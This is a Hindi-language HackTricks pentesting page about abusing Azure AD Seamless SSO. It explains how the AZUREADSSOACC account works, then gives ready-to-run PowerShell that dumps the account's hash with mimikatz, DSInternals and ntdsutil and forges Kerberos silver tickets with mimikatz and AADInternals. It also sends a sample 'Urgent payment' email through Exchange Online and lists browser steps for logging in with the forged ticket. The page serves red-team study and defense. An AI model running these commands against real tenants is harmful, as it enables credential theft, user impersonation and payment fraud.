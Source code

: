 # Seamless SSO

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो** करें.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## मूल जानकारी

Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) स्वचालित रूप से **उपयोगकर्ताओं को साइन इन करता है जब वे अपने कॉर्पोरेट डिवाइस पर होते हैं** जो आपके कॉर्पोरेट नेटवर्क से जुड़े होते हैं। सक्षम होने पर, **उपयोगकर्ताओं को Azure AD में साइन इन करने के लिए अपने पासवर्ड टाइप करने की आवश्यकता नहीं होती**, और आमतौर पर, उन्हें अपने उपयोगकर्ता नाम भी टाइप करने की जरूरत नहीं होती। यह सुविधा आपके उपयोगकर्ताओं को आपके क्लाउड-आधारित अनुप्रयोगों तक आसान पहुँच प्रदान करती है बिना किसी अतिरिक्त ऑन-प्रिमाइसेस घटकों की आवश्यकता के।

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

मूल रूप से Azure AD Seamless SSO **उपयोगकर्ताओं को साइन इन करता है** जब वे **ऑन-प्रिम डोमेन जॉइन्ड PC पर होते हैं**।

इसे [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) और [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) दोनों द्वारा समर्थित किया जाता है।

Desktop SSO **Kerberos** का उपयोग करके प्रमाणीकरण करता है। कॉन्फ़िगर किए जाने पर, Azure AD Connect ऑन-प्रिम AD में **कंप्यूटर अकाउंट AZUREADSSOACC** बनाता है। AZUREADSSOACC अकाउंट का पासवर्ड **कॉन्फ़िगरेशन के दौरान Azure AD को प्लेन-टेक्स्ट के रूप में भेजा जाता है**।

**Kerberos टिकट्स** **NTHash (MD4)** के पासवर्ड का उपयोग करके **एन्क्रिप्टेड** होते हैं और Azure AD टिकट्स को डिक्रिप्ट करने के लिए भेजे गए पासवर्ड का उपयोग करता है।

**Azure AD** एक **एंडपॉइंट** (https://autologon.microsoftazuread-sso.com) प्रदर्शित करता है जो Kerberos **टिकट्स** स्वीकार करता है। डोमेन-जॉइन्ड मशीन का ब्राउज़र इस एंडपॉइंट को SSO के लिए टिकट्स फॉरवर्ड करता है।

### ऑन-प्रिम -> क्लाउड

उपयोगकर्ता **AZUREADSSOACC का पासवर्ड कभी नहीं बदलता**। इसलिए, एक डोमेन एडमिन इस अकाउंट के **हैश को समझौता कर सकता है**, और फिर उसका उपयोग करके **किसी भी ऑन-प्रिम उपयोगकर्ता को सिंक करने के लिए सिल्वर टिकट्स बना सकता है** ताकि Azure से **कनेक्ट** हो सके:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
हैश के साथ आप अब **सिल्वर टिकट्स जनरेट कर सकते हैं**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "97B745CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
सिल्वर टिकट का उपयोग करने के लिए:

1. _Mozilla Firefox_ लॉन्च करें।
2. **`about:config`** पर जाएं और [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) प्रेफरेंस को [value](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com` पर सेट करें।
3. किसी भी वेब एप्लिकेशन पर नेविगेट करें जो हमारे AAD डोमेन के साथ इंटीग्रेटेड है। हम [Office 365](https://portal.office.com/) का उपयोग करेंगे, जो सबसे आम तौर पर इस्तेमाल किया जाता है।
4. लॉगऑन स्क्रीन पर पहुंचने के बाद, यूजर नाम भरें, पासवर्ड फील्ड को खाली छोड़ दें। फिर TAB या ENTER दबाएं।

<figure><img src="../../../../.gitbook/assets/image (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

#### और बस! आपको अंदर होना चाहिए! <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

#### ~~क्लाउड-ओनली यूजर्स के लिए केर्बेरोस टिकट बनाना~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

यदि एक्टिव डायरेक्टरी एडमिनिस्ट्रेटर्स के पास Azure AD Connect तक पहुंच है, तो वे किसी भी क्लाउड-यूजर के लिए **SID सेट कर सकते हैं**। इस तरह से केर्बेरोस **टिकट** भी क्लाउड-ओनली यूजर्स के लिए **बनाए जा सकते हैं**। एकमात्र आवश्यकता यह है कि SID एक उचित [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) हो।

{% hint style="danger" %}
क्लाउड-ओनली एडमिन यूजर्स के SID बदलना अब **Microsoft द्वारा ब्लॉक किया गया है**।\
जानकारी के लिए [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/) देखें।
{% endhint %}

## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन।
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का पालन करें**।
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
